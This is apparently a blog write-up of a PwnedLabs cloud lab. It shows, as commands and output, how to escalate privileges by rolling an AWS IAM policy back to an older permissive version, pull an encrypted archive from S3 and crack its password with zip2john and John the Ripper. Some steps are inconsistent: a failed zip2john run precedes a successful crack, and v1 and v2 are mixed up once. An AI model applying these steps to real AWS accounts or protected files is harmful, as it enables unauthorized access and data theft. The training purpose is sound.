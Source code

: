 ```yaml
---
title: Escalate Privileges by IAM Policy Rollback
layout: post
date: 2025-06-27
categories: [Writeups, PwnedLabs]
tags: [Cloud, AWS, John the Ripper]
author: bailee
toc: true
description: Using a file containing AWS credentials, navigate and access sensitive data and resources.
---
```

Lab Platform: 
: [PwnedLabs](https://pwnedlabs.io/labs/escalate-privileges-by-iam-policy-rollback)

---

## Tools, Commands, & Resources

### Tools Used

- zip2john
- John the Ripper

### Commands

- `aws iam get-policy-version --policy-arn <policy-arn> --version-id <v#>`
    - Get the details of a specific version of a policy by it’s ARN and the version ID (v#). Only works with custom-made policies, not AWS-managed ones.

- `aws iam set-default-policy-version --policy-arn <policy-arn> --version-id <v#>`
    - Set the default policy version being used for a policy by its ARN and version ID.

### References

- <https://www.esecurityplanet.com/products/john-the-ripper/>
- <https://linuxcommandlibrary.com/man/zip2john>
- <https://github.com/openwall/john>

---

## Lab Walkthrough

### Enumeration

Using the provided AWS credentials, I configured my profile. First, let’s see what my user is and do some initial enumeration.

```
┌──(kali㉿kali)-[~]
└─$ aws sts get-caller-identity                                               
{
    "UserId": "AIDAZWFVYTTLSTOYD4ORI",
    "Account": "666101128407",
    "Arn": "arn:aws:iam::666101128407:user/intern01"
   }
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name intern01
{
    "AttachedPolicies": [
        {
            "PolicyName": "intern_policy",
            "PolicyArn": "arn:aws:iam::666101128407:policy/intern_policy"
        }
    ]
}
┌──(kali㉿kali)-[~]
└─$ aws iam list-policy-versions --policy-arn arn:aws:iam::666101128407:policy/intern_policy
{
    "Versions": [
        {
            "VersionId": "v2",
            "IsDefaultVersion": true,
            "CreateDate": "2025-06-14T03:40:49+00:00"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2025-06-14T03:40:48+00:00"
        }
    ]
}
```

So the account we are using, ‘intern01’, has a policy called ‘intern_policy’ attatched to the user. We can view all of the policy versions by using the command `aws iam list-policy-versions --policy-arn <policy-arn>`. There are two versions - v1 and v2. How are they different? 

```
┌──(kali㉿kali)-[~]
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v2 
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "internpolicy",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetPolicyVersion",
                        "iam:GetPolicy",
                        "iam:ListPolicyVersions",
                        "iam:GetUserPolicy",
                        "iam:ListAttachedUserPolicies",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Resource": [
                        "arn:aws:iam::*:user/intern01",
                        "arn:aws:iam::*:policy/intern_policy"
                    ]
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2025-06-14T03:40:49+00:00"
    }
}
┌──(kali㉿kali)-[~]
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "ec2:DescribeInstances",
                        "s3:ListAllMyBuckets",
                        "s3:GetObject",
                        "s3:ListBucket"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2025-06-14T03:40:48+00:00"
    }
}
```

### Privilege Escalation

It looks like v2 is a lot more restrictive than v1. V1 allows describing ec2 instances, and listing and getting objects from S3 anywhere in the account. v1, wisely, only allows for some get & list policies on our own account and policy. It would sure be nice if we could go back to that old policy… Oh wait, we can do that with the command `aws iam set-default-policy-version --policy-arn <policy-arn> --version-id <version-id>` !

```
┌──(kali㉿kali)-[~]
└─$ aws iam set-default-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v1
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ aws s3 ls                                                                                                     
2025-06-13 23:40:50 huge-logistics-data-1fc2a16b89a3
```

It worked! After changing the policy version, we can list S3 information now! What all is in here anyway? 

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls huge-logistics-data-1fc2a16b89a3
2025-06-13 23:40:51       4352 amex-export.zip
```

Amex, like American Express? 

```
┌──(kali㉿kali)-[~]
└─$ aws s3 cp s3://huge-logistics-data-1fc2a16b89a3/amex-export.zip .
download: s3://huge-logistics-data-1fc2a16b89a3/amex-export.zip to ./amex-export.zip
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ unzip amex-export.zip                         
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password: 
   skipping: amex-export.json        incorrect password
   skipping: flag.txt                incorrect password
```

### Credential Access

Looks like I need a password… well, maybe the passwords game here isn’t that strong. Time to try John the Ripper. 

```
┌──(kali㉿kali)-[~]
└─$ zip2john ../../amex-export.zip > amex-export.zip.hash 
! ../../amex-export.zip : No such file or directory

┌──(kali㉿kali)-[~]
└─$ john amex-export.zip.hash --wordlist=rockyou.txt     
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1logistics       (amex-export.zip)     
1g 0:00:00:01 DONE (2025-06-14 00:11) 0.6622g/s 8615Kp/s 8615Kc/s 8615KC/s 1luvtyson..1josh=fit
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ unzip amex-export.zip 
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password: 
  inflating: amex-export.json        
 extracting: flag.txt                                         
```

And there’s the flag!